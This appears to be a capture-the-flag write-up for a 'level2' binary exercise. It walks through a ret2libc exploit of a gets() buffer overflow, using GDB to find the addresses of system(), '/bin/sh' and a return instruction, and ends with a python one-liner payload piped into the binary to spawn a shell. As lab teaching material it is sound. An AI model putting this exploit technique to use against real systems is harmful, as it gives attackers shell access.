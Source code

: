 # LEVEL2

In this level, we observe a condition that checks whether the address has been modified immediately after the *gets()* function. If it has, the program prints the modified address and then calls *exit()*. Therefore, we cannot exploit a buffer overflow with *gets()*, and will need to use a different approach.

```
objdump -R level2
```

![alt text](Ressources/images/objdump.png)

After inspecting the object files, we can see that `libc` is present. Therefore, we can take advantage of it.

> The **libc**, also known as C standard library, provides macros, type definitions and functions for tasks such as string handling, mathematical computations, input/output processing, memory management, and several other operating system services.

With this knowledge, we can perform a `Ret2libc` attack. 

> The **Ret2libc** exploit replaces a function's return address with the address of a libc function. The subsequent bytes in memory are then overwritten with the addresses of additional libc functions to control program execution.

Next, we can use *gets()* to create a buffer overflow and inject the address of *system()* along with the string *"/bin/sh"* to gain a shell prompt.  Additionally, we must include the function's return address to bypass the overflow protection. We'll then use all those informations to build a payload. Let's get started!

First, we'll use a debugger like GDB to find the address of *system()*, *"/bin/sh"* and the return address.

```
> gdb level2
> break p
> run
> print system
```
![alt text](Ressources/images/system.png)

We’ve obtained the address of *system()*, which is **0xb7e6b060**. Then, we'll locate the address of */bin/sh*. The string "/bin/sh" is located within *libc*, we can use the address range of *libc* to identify its precise location.

```
info proc map
```
![alt text](Ressources/images/bin_sh.png)

We can see that the *libc* address range starts at **0xb7e2c000** and ends at **0xb7fd2000**. To locate "/bin/sh", we simply need to perform a `find` command within this range.

```
find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
```

The result is **0xb7f8cc58**.\
Finally, we need to retrieve the address of the function's return.

```
disassemble p
```
![alt text](Ressources/images/return.png)

The address of return is **0x0804853e**.

Now, we can construct the payload using the following template:\
`payload = A*80 + address of return + address of system() + "DUMM" + address of "/bin/sh"`

```
python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x58\xcc\xf8\xb7")' > /tmp/payload2
```

Then, we apply the payload to the binary.

```
cat /tmp/payload2 - | ./level2
```

**LEVEL2 COMPLETE!**